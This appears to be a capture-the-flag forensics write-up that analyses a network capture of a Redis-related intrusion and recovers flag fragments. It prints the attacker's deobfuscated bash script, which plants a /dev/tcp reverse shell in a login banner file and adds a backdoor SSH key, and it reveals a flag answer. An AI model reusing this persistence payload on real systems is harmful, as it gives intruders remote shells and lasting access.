




# Introduction

The flag is split into **three parts**. In this investigation, we were able to recover **two parts**. We start from a provided `.pcap` file.

---

# 1st part

The capture contains **two HTTP frames**. The second frame is large and contains interesting data.

- Load the payload in **CyberChef**.
- Apply **reverse** and **Base64 decode** operations.



After decoding, deobfuscate the **bash script** manually.

```bash
#!/bin/bash

lhJVXukWibAFfkv() {
    echo 'bash -c "bash -i >& /dev/tcp/10.10.0.200/1337 0>&1"' > /etc/update-motd.d/00-header
}

x7KG0bvubT6dID2() {
    echo -e "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC8Vkq9UTKMakAx2Zq+PnZNc6nYuEK3ZVXxH15bbUeB+elCb3JbVJyBfvAuZ0sonfAqZsyq9Jg6/KGtNsEmtVKXroPXhzFumTgg7Z1NvrUNvnqLIcfxTnP1+/4X284hp0bF2VbITb6oQKgzRdOs8GtOasKaK0k//2E5o0RKIEdrx0aL5HBOGPx0p8GrGe4kRKoAokGXwDVT22LlBylRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IfLMD/FQNy1B4DYhsY62O7o2xR0vxkBEp5UhBAX8gOTG0wjzrUHxmdUimXgiy39YVZaTJQwLBtzJS//YhkewyF/+CP0H7wIKIErlf5WFK5skLYO6uKVpx6akGXY8GADnPU3iPK/MtBC+RqWssdkGqFIA5xG2Fn+Klid9Obm1uXexJfYVjJMOfvuqtb6KcgLmi5uRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IlSxaiOAD2iNJboNuUIxMH/9HNYKd6mlwUpovqFcGBqXizcF21bxNGoOE31Vfox2fq2qW30BDWtHrrYi76iLh02FerHEYHdQAAA08NfUHyCw0fVl/qt6bAgKSb02k691lcDAo5JpEEzNQpub0X8xJItrbw==HTB{r3d15_1n574nc35" >> ~/.ssh/authorized_keys
	}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```

The script reveals the **first flag** embedded in an `ssh-rsa` key.

- **1st Flag:** Embedded in `ssh-rsa` key: `HTB{r3d15_1n574nc35}`

---

# 2nd part

- The **RESP protocol** in the capture was notable.
- Refer to the [Redis protocol spec](https://redis.io/docs/latest/develop/reference/protocol-spec/).
- Follow the TCP stream in Wireshark to locate the data at the **end of the stream**.



> ⚠️ The flag is **case-sensitive**. Ensure correct capitalization when capturing.

- **2nd Flag:** Extracted from the TCP stream.

---

# 3rd part

- Binwalk revealed an **ELF file** within the capture.



- VirusTotal confirmed it is **malicious**.



- **3rd Flag:** TBD
